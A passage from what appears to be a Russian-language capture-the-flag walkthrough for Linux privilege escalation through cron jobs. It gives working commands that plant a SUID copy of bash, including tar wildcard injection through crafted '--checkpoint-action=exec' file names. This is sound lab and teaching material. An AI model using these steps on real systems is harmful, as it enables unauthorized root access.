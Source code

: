 1. В командной строке введите: `cat /etc/crontab`
2. В выводе обратите внимание на значение переменной «PATH».
Эксплуатация Linux- виртуальная машина
1. В командной строке введите:
`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh`
2. В командной строке введите: `chmod +x /home/user/overwrite.sh`
3. Подождите 1 минуту, пока скрипт Bash выполнится.
4. В командной строке введите: `/tmp/bash -p`
5. В командной строке введите: `id`
### Ответьте на вопросы ниже
Нажмите «Завершено» после успешного повышения уровня машины.
```commandline
Ответ не нужен
```

## Задание 17
Обнаружение

Linux- виртуальная машина

1. В командной строке введите: `cat /etc/crontab`
2. В выводе обратите внимание на скрипт «`/usr/local/bin/compress.sh`»
3. В командной строке введите: `cat /usr/local/bin/compress.sh`
4. В выводе обратите внимание на подстановочный знак (*), используемый «tar».

Эксплуатация Linux- виртуальная машина

1. В командной строке введите:
`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh`
2. нажмите `/home/user/--checkpoint=1`
3. нажмите `/home/user/--checkpoint-action=exec=sh\ runme.sh`
4. Подождите 1 минуту, пока скрипт Bash выполнится.
5. В командной строке введите: `/tmp/bash -p`
6. В командной строке введите: `id`
### Ответьте на вопросы ниже
Нажмите «Завершено» после успешного повышения уровня машины.
```commandline
Ответ не нужен
```

## Задание 18
Обнаружение

Linux- виртуальная машина

1. В командной строке введите: `cat /etc/crontab`
2. В выводе обратите внимание на скрипт «overwrite.sh»
3. В командной строке введите: `ls -l /usr/local/bin/overwrite.sh`
4. В выводе обратите внимание на права доступа к файлам.

Эксплуатация Linux- виртуальная машина

1. В командной строке введите:
`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh`
2. Подождите 1 минуту, пока скрипт Bash выполнится.
3. В командной строке введите: `/tmp/bash -p`
4. В командной строке введите: id
### Ответьте на вопросы ниже
Нажмите «Завершено» после успешного повышения уровня машины.
```commandline
Ответ не нужен
```
